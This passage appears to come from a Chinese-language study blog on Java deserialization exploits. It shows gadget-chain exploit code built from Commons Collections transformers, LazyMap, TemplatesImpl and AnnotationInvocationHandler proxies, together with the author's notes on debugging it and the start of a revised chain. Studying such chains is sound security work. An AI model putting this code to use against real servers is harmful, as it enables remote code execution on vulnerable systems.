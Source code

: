 ```
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //    templates.newTransformer();  
  
 InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},  
 new Object[]{templates});  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map decorateMap = LazyMap.decorate(hashMap, instantiateTransformer);  
  
 Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
 Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
 declaredConstructor.setAccessible(true);  
 InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);  
  
 Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader()  
                , new Class[]{Map.class}, invocationHandler);  
 Object o = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);  
  
 //  serialize(o);  
 unserialize("ser.bin");  
 }  
  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```

- 这段 EXP 在序列化的时候是没问题的，在反序列化的时候报错了，报错说我们传入 `instantiateTransformer` 是一个字符串而不是一个类，我当时人就傻了。啊？明明是一个类啊，不是字符串啊，怎么回事？

我打了断点调试还是想不明白，后续才知道是因为 CC1 链的老问题，`setValue()` 的传参无法控制，需要引入 `Transformer` 与 `ChainedTransformer` 加以辅助。

JAVA

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InstantiateTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
```